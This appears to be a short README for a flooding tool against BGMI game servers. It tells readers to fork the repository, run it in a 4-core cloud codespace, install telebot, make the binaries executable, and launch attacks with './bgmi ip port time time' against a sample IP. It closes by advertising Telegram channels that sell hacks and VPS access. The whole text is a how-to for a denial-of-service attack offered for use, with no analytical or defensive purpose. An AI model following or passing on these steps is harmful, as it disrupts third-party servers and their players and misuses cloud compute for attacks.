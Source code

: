 All people use old or new script if works that's fine!

If u want to attack directly using terminal follow some steps - Click on fork repository! After create codespace of 4 core after creating open terminal just run 2 command only one time 
1- pip install telebot  
2- chmod +x *

Then attack with command by- ./bgmi ip port time time example- ./bgmi 20.192.168.20 23477 200 200

U have to determine the time two time Then delite terminal bash to stop attack -thankyou keep supporting Must join- venomCHA7.t.me Wanna buy hacks vps or anything dm - DarkLeoAttack.t.me

